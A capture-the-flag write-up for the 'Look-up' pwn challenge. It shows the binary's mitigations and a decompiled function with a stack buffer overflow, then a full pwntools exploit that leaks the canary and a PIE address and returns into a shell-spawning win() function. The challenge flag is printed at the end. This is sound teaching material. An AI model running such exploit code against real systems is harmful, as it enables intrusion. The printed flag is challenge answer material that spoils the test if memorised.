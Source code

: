# Look-up
Unravel the hidden messages buried in the echoes of code.

## Video Write Up

[![Look-Up Writeup](Resources/thumbnail.png)](https://www.youtube.com/watch?v=o00Fu5PSiaQ)

## Write Up

Before diving into any pwn challenge, it's crucial to examine the security mitigations applied during the compilation of the executable. The checksec tool from the pwntools suite is perfect for this:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

With all major mitigations enabled, this challenge may seem daunting at first.

When you run the program, it presents the following message and waits for your input:

```
---Welcome to the UCTF---
--- I'll repeat what you say :D ---
```

Without access to the source code, we turn to a disassembler like IDA Pro to understand the program’s behavior. In the vuln() function, we discover a stack buffer overflow vulnerability:

```c
unsigned __int64 vuln()
{
  char s[10]; // [rsp+Eh] [rbp-12h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("--- I'll repeat what you say :D ---");
  memset(s, 0, sizeof(s));
  read(0, s, 0x64uLL);  // Buffer overflow vulnerability
  printf("You said: %s\n", s);
  if (strstr(s, "UCTF"))
  {
    puts("The Backdoor triggered!");
    vuln();  // Recursively calls itself
  }
  return v2 - __readfsqword(0x28u);
}
```

The program also contains a win() function that runs system("/bin/bash -p"), giving a shell when triggered:

```c
void win()
{
  system("/bin/bash -p");
}
```

To gain a shell, we need to bypass the stack canary and PIE protections. The vuln() function’s behavior provides a critical insight: it echoes back whatever you input. This allows us to leak the stack canary by overflowing the buffer and inspecting the output.

Once the canary is leaked, we can craft a payload that bypasses the canary check. Next, we need to leak another value from the stack that is related to a function. With both the canary and function values in hand, we can overwrite the return address and call the win() function to spawn a shell.

Here is the finall exploit:

```python
from pwn import *

elf = context.binary = ELF("./look-up")
context.log_level = 'debug'
libc = elf.libc

gs = '''
start
'''
def start():
    global gs
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("0.0.0.0", 5000)
    else:
        return process(elf.path)

io = start()

payload = b'UCTF' + b'A' * 7


io.send(payload)
io.recvuntil(b"You said:")
canary = io.recvline()
canary = list(canary)
canary[11] = 0
canary = canary[11:19]
canary = bytearray(canary)
canary = u64(canary)

print(f"Canary = {hex(canary)}")


payload = b'UCTF' + b'B' * 22
io.send(payload)
io.recvuntil(b"You said:")
addr = io.recvline()
addr = list(addr)
addr = addr[27:27+6]
addr = bytearray(addr).ljust(8, b'\x00')

leaked_addr = u64(addr)

print(f'Vuln Leaked addr: {hex(leaked_addr)}')

base = leaked_addr - 169 - 0x000000000000126f

win_addr = base + 0x0000000000001258

payload = b'A' * 10
payload+= p64(canary)
payload+= b'B' * 8
payload+= p64(win_addr)

io.send(payload)

io.interactive()

```

# Flag

`UCTF{Pl4ying_S3t@r_str1ngs_is_Fun_4Evr!}`

# Categories

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Blockchain
- [ ] Steganography
- [ ] AI

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |       300       | 500  |

